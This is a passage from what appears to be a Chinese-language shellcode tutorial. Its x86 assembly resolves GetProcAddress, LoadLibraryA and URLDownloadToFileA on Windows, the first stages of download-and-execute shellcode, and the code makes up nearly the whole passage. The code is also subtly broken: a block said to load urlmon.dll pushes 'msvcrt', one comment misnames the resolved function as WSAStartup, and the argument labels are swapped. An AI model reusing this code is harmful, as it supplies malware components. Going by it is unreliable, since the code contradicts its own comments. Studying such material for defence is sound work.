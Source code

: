     functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    
    
    ```

  + 通过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll

    ```asm
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```

  + 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址（套路一致）

    ```asm
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```
